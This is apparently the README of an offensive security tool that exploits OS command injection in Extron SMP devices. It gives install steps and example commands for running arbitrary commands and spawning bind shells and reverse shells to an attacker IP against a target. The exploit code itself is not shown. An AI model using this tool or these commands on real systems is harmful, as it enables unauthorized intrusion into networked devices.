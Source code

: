 ![alt text](https://github.com/layer8secure/extron-smp-inject/blob/main/extron_inject.png?raw=true)

# Extron SMP OS Command Injection

By Ryan Roth [@f1rstm4tter](https://twitter.com/f1rstm4tter)
[www.layer8security.com](http://www.layer8security.com)

## Overview

This tool exploits OS command injection vulnerabilities in Extron SMP devices. It allows users to execute arbitrary commands and spawn shells (both bind and reverse) on the target system.

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
- [Arguments](#arguments)
- [Examples](#examples)
- [Logging](#logging)
- [License](#license)

## Installation

To use this tool, you need Python 3.x and `pip` installed. Clone the repository and install the required packages:

```bash
git clone https://github.com/yourusername/extron-smp-inject.git
cd extron-smp-inject
pip install -r requirements.txt
```

## Usage

To run the tool, use the following command:

```bash
python extron_smp_inject.py <action> [options]
```

### Arguments

- `action`: The action to perform (either `command`, `bind`, or `reverse`).
- `rhost`: The target IP address (required).
- `rport`: The target port (80 or 443) (required).
- `--username`: The username for authentication (default: `admin`).
- `--password`: The password for authentication.
- `-v` or `--verbose`: Enable verbose logging.
- `--log-file`: Specify a log file to write logs to.

### Examples

**Execute an arbitrary command:**

```bash
python extron_smp_inject.py command <target_ip> <target_port> --username admin --password <password> "ls -la"
```

**Spawn a bind shell:**

```bash
python extron_smp_inject.py bind <target_ip> <target_port> <local_port> --username admin --password <password>
```

**Spawn a reverse shell:**

```bash
python extron_smp_inject.py reverse <target_ip> <target_port> <attacker_ip> <attacker_port> --username admin --password <password>
```

## Logging

The tool supports logging output to the console and optionally to a file. You can enable verbose logging using the `-v` option, which provides more detailed output during execution.

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

## Disclaimer

Ensure you have proper authorization before testing devices. Unauthorized access is illegal.
